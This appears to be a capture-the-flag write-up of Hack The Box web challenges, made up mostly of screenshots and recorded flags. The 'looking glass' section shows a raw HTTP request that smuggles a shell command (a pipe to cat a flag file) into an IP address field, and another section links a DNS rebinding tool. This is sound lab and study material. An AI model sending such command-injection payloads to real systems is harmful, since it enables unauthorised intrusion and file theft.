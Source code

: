 ```
```


![image](https://hackmd.io/_uploads/rJmUl-OaC.png)

flag: `HTB{c0mfy_bzzzzz_rcb33s_v1b3s}`



## baby CachedView


![image](https://hackmd.io/_uploads/r1RA1MupC.png)


flag: ![image](https://hackmd.io/_uploads/SyvkxMuTC.png)

link: https://lock.cmpxchg8b.com/rebinder.html


## looking glass

![image](https://hackmd.io/_uploads/ByCgvfdpA.png)

```
POST / HTTP/1.1
Host: 94.237.50.249:46774
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://94.237.50.249:46774
Connection: close
Referer: http://94.237.50.249:46774/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

test=ping&ip_address=8.8.8.8|cat+/flag_KwPxu&submit=Test
```

![image](https://hackmd.io/_uploads/rJi-wMdpA.png)


flag: `HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}`

## sanitize

![image](https://hackmd.io/_uploads/BkO3vG_pC.png)


```
POST / HTTP/1.1
Host: 94.237.49.212:45829
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://94.237.49.212:45829
Connection: close
Referer: http://94.237.49.212:45829/
Upgrade-Insecure-Requests: 1
```